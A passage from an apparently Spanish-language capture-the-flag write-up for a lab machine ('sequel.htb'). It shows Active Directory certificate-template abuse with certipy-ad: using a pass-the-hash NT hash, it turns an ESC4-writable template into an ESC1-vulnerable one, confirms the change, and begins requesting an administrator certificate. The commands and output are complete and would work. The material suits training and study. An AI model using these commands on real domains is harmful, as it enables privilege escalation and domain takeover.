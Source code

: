 ```
    [!] Vulnerabilities
      ESC4                              : User has dangerous permissions.
```

Se debe a que el grupo `Cert Publishers` tiene permisos  `Full Control Principals, Write Owner Principals, Write Dacl Principals y Write Property Enroll` sobre la plantilla.

Modifico la configuracion de la plantilla con `certipy-ad template` para hacerla la vulnerable a `ESC1` con la opcion `-write-default-configuration`:

```
certipy-ad template -write-default-configuration -username ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -template "DunderMifflinAuthentication" -dc-ip 10.129.1.36 -no-save
```

```
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Replacing:
[*]     nTSecurityDescriptor: b'\x01\x00\x04\x9c0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x14\x00\x00\x00\x02\x00\x1c\x00\x01\x00\x00\x00\x00\x00\x14\x00\xff\x01\x0f\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00'
[*]     flags: 66104
[*]     pKIDefaultKeySpec: 2
[*]     pKIKeyUsage: b'\x86\x00'
[*]     pKIMaxIssuingDepth: -1
[*]     pKICriticalExtensions: ['2.5.29.19', '2.5.29.15']
[*]     pKIExpirationPeriod: b'\x00@9\x87.\xe1\xfe\xff'
[*]     pKIExtendedKeyUsage: ['1.3.6.1.5.5.7.3.2']
[*]     pKIDefaultCSPs: ['2,Microsoft Base Cryptographic Provider v1.0', '1,Microsoft Enhanced Cryptographic Provider v1.0']
[*]     msPKI-Enrollment-Flag: 0
[*]     msPKI-Private-Key-Flag: 16
[*]     msPKI-Certificate-Name-Flag: 1
[*]     msPKI-Certificate-Application-Policy: ['1.3.6.1.5.5.7.3.2']
Are you sure you want to apply these changes to 'DunderMifflinAuthentication'? (y/N): y
[*] Successfully updated 'DunderMifflinAuthentication'
```

Uso de nuevo find para confirmar:

```
certipy-ad find -vulnerable -username ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -dc-ip 10.129.1.36 -stdout
```

```
[!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
      ESC4                              : User has dangerous permissions.
```

Con `certipy-ad req` solicito un certificato del usuario administrator, lo empaqueta con clave privada que genero certipy en local en formato .pfx(PKCS#12). 
